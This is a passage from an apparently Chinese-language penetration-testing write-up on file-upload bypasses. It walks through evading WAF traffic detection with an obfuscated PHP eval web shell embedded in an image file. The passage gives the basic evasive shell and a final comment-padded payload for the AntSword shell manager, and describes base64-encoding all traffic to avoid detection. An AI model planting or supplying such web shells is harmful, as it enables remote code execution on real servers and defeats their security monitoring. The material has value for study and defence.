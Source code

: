 ![image.png](02.文件上传.assets/2023_05_19_14_38_11_I4ux6mYn.png)
可以看到成功执行了，说明shell还是可以用的，就是需要绕过流量特征检测。
这里想着用传递编码的字符到shell执行，但是始终会被拦截。没办法，只能从shell上下手，又经过一些免杀测试，准备好的基础免杀shell为`<?=@$_=$_POST;@eval(base64_decode($_[_]));`，经过不断的尝试，终于构造出可用的图片：
![image.png](02.文件上传.assets/2023_05_19_14_38_11_0cvuS5zB.png)
 最终payload(蚁剑中_是保留字符，所以密码修改为了d):  
```php
$miniPayload = '/sssdajkhsdajk*/<?=@$_=$_POST;$x=BASE64_DECODE($_[d]);/*hsd*/@EVAL(($x));/*ajmjikloasdk*//*hsdajk*//*';
```
![image.png](02.文件上传.assets/2023_05_19_14_38_11_Pei1nT6q.png)
 蚁剑的编码器用的编码器是对所有参数都base64编码(之前的流量中有很明显的PHP执行代码)，返回数据也都base64：  